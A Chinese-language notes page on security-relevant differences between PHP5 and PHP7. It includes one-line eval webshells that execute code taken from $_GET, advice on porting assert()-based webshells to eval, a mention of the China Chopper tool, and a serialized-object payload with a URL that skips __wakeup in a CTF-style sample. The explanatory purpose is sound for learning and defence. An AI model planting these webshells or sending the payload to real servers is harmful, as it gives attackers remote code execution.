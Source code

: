 # PHP7 和 PHP5 在安全上的区别

## 函数修改

### preg_replace()不再支持/e修饰符


  ```php
<?php
preg_replace("/.*/e",$_GET["h"],"."); 
?>
  ```

### 新的函数preg_replace_callback

```php
<?php
preg_replace_callback("/.*/",function ($a){@eval($a[0]);},$_GET["h"]);
?>
//http://192.168.99.100:32775/test.php?h=phpinfo();
```

### create_function()被废弃

### mysql_*系列全员移除

### unserialize()增加一个可选白名单参数

```PHP
$data = unserialize($serializedObj1 , ["allowed_classes" => true]);
$data2 = unserialize($serializedObj2 , ["allowed_classes" => ["MyClass1", "MyClass2"]]);
```

其实就是一个白名单，如果反序列数据里面的类名不在这个白名单内，就会报错。

### **assert()**默认不在可以执行代码

这就是众多马不能用的罪魁祸首了，太多的马用assert()来执行代码了，这个更新基本就团灭，一般情况下修改成eval即可正常运行了~

提一下，菜刀在实现文件管理器的时候用的恰好也是assert函数，这导致菜刀没办法在PHP7上正常运行。

## 语法修改

### foreach不再改变

php7之前

### ![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lyd4jvyj30ap07rglv.jpg)

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lwktshnj30ka02074b.jpg)

php7

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58lzusjr2j30kw020mx7.jpg)

因为数组最后一个元素的 $value 引用在 foreach 循环之后仍会保留，在第二个循环的时候实际上是对之前的指针不断的赋值。php7中通过值遍历时，操作的值为数组的副本，不在对后续操作进行影响

### 8进制字符容错率降低

在php5版本，如果一个八进制字符如果含有无效数字，该无效数字将被静默删节。

```php
<?php
echo octdec( '012999999999999' ) .'\n';
echo octdec( '012' ) . '\n';
if (octdec( '012999999999999' )==octdec( '012' )){
        echo "octdec(octdec( '012999999999999' ))==octdec('012')";
}
?>
```

![](http://ww1.sinaimg.cn/large/006pWR9agy1g58m6yec3gj30fe00yglm.jpg)

但是在php7里面会触发一个解析错误。

这个问题同样在PHP7.0.0以后的版本又被改回去了，只影响这一个版本。

### 十六进制字符串不再被认为是数字

### 移除了 ASP 和 script PHP 标签

![](http://ww1.sinaimg.cn/large/006pWR9aly1g58m9xr2ldj30j604q0so.jpg)

现在只有`<?php ?>`这样的标签能在php7上运行了。

### `__wakeup` 函数被废弃

PHP 有个 [Bug](https://bugs.php.net/bug.php?id=72663)，触发该漏洞的PHP版本为PHP5小于5.6.25或PHP7小于7.0.10，该漏洞可以简要的概括为：当序列化字符串中表示对象个数的值`大于`真实的属性个数时会跳过 `__wakeup` 函数的执行。

``` 
<?php
class xctf
{    
	public $flag = "111";
    public function __wakeup()    
    {       
    	exit('bad requests');    
    }
} //echo serialize(new xctf());
echo unserialize($_GET['code']);echo "flag{****}";?>
```

使用这个 payload 绕过 `__wakeup` 函数

```
# O:4:"xctf":1:{s:4:"flag";s:3:"111";}
http://www.example.com/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

### 超大浮点数类型转换截断

将浮点数转换为整数的时候，如果浮点数值太大，导致无法以整数表达的情况下， 在PHP5的版本中，转换会直接将整数截断，并不会引发错误。 在PHP7中，会报错。

### 杂项

`exec(), system() passthru()`函数对 NULL 增加了保护.

`list()`不再能解开字符串`string`变量

`$HTTP_RAW_POST_DATA` 被移除

`__autoload()` 方法被废弃

`parse_str()` 不加第二个参数会直接把字符串导入当前的符号表，如果加了就会转换称一个数组。现在是第二个参数是强行选项了。

统一不同平台下的整型长度

`session_start()` 可以加入一个数组覆盖php.ini的配置